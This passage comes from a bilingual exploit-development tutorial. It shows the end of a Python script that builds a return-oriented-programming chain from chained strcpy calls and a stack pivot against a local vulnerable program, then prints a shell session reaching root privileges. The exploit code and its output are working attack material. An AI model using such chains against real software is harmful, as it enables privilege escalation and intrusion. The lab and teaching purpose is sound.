``` python
buf += conv(execve_argv1_oct2)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_argv1_oct1)
#Below stack frame is for strcpy (to copy execve argv[1] (0x0) to custom stack @ loc 0x804ac6c)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_null_arg)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_null_arg)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_null_arg)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_null_arg)
#Stack Pivot
buf += conv(pr_addr)
buf += conv(cust_base_esp)
buf += conv(lr_addr)
print "Calling vulnerable program"
call(["./vuln", buf])
```
Executing above exploit code gives us root shell (as shown below):  
执行上面的漏洞利用代码就可以得到下面的root shell  

``` bash
$ python exp.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��ﾭ�ﾭ�ﾭ�ͅﾭހ�����ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭޢ�@���0�����Ѓ΅d�ˁЃ΅e�U�Ѓ΅f�0�Ѓ΅g�C�Ѓ΅h�܃Ѓ΅i�U�Ѓ΅j�0�Ѓ΅k�C�Ѓ΅l�`�Ѓ΅m�`�Ѓ΅n�`�Ѓ΅o�`�Ѓ΅p���Ѓ΅q�Ѓ΅r�0�Ѓ΅s�C�Ѓ΅t���Ѓ΅u�Ѓ΅v�0�Ѓ΅w�C�Ѓ΅x�`�Ѓ΅y�`�Ѓ΅z�`�Ѓ΅{�`�Ѓ΅`�T�Ѓ΅a�W�Ѓ΅b�V�Ѓ΅c�^�Ѓ΅d�T�Ѓ΅e�b�Ѓ΅f���Ѓ΅h���Ѓ΅i�Ѓ΅j�0�Ѓ΅k�C�Ѓ΅l�`�Ѓ΅m�`�Ѓ΅n�`�Ѓ΅o�`���`�i�
Len:1008
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```

## 参考

[PAYLOAD ALREADY INSIDE: DATA REUSE FOR ROP EXPLOITS](http://media.blackhat.com/bh-us-10/whitepapers/Le/BlackHat-USA-2010-Le-Paper-Payload-already-inside-data-reuse-for-ROP-exploits-wp.pdf)

